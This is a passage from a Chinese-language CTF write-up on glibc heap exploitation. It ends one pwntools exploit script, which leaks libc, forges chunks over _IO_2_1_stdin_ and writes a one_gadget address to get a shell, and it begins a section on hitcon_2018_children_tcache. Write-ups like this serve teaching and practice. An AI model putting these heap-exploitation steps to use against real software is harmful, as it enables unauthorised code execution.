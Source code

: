 ```
        sh.recvuntil('index:')
        sh.sendline('0')

        delete(sh,3)
        creat(sh,0xF8,'Libc---&gt;')
        show(sh,1)
        libc.address = get_address(sh=sh,info='LIBC ADDRESS IS ',start_string='Libc---&gt;',end_string='x0A',offset=-0x3C4D68)

        delete(sh,5)
        delete(sh,6)
        creat(sh,0x68,'A'*0x60 + p64(0x70+0x110))
        delete(sh,7)

        every_where_edit(sh,str(libc.symbols['_IO_2_1_stdin_'] + 0xB8),'x71')
        delete(sh,2)
        creat(sh,0x120,'A' * 0x100 + p64(0x110) + p64(0x70) + p64(libc.symbols['_IO_2_1_stdin_'] + 0xB0))

        creat(sh,0x100,p64(0) * 2 + p64(libc.address + 0xf02a4) * 19 + p64(0) * 3)
        creat(sh,0x60, 'Chunk')
        creat(sh,0x60, p64(0xffffffff) + "x00" * 0x10 + p64(heap_address + 0x4E0))

        sh.interactive()
        flag = get_flag(sh)
        sh.close()
        return flag
    except Exception as e:
        traceback.print_exc()
        sh.close()
        return 'ERROR : Runtime error!'

if __name__ == "__main__":
    sh = get_sh()
    flag = Attack(sh=sh)
    log.success('The flag is ' + re.search(r'flag`{`.+`}`',flag).group())
```



## 0x04 以 hitcon_2018_children_tcache 为例

### <a class="reference-link" name="%E9%A2%98%E7%9B%AE%E4%BF%A1%E6%81%AF"></a>题目信息

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-06-10-064621.png)

保护全开，64位程序，Glibc-2.27

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90"></a>漏洞分析

